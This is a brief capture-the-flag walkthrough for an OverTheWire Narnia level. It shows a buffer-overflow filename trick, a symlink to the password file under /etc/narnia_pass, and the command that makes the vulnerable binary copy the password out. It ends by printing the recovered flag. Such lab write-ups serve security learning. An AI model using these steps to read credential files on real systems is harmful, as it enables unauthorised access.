

# narnia level4 Solution

we will override the output file, this is the line we'll run
`python3 -c "print('/tmp/1/'+'a'*(32-len('/tmp/1/')) + 'output_file')"`
notice my dir is `/tmp/1`.
then, we will run link the file that it outputs to the password file: `ln -sf /etc/narnia_pass/narnia4 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

then, we will create the output file: `touch output_file`
and we need only to execute the binary: `/narnia/narnia3 /tmp/1/aaaaaaaaaaaaaaaaaaaaaaaaaoutput_file`

in one picture:

**Flag:** ***`iqNWNk173q`*** 
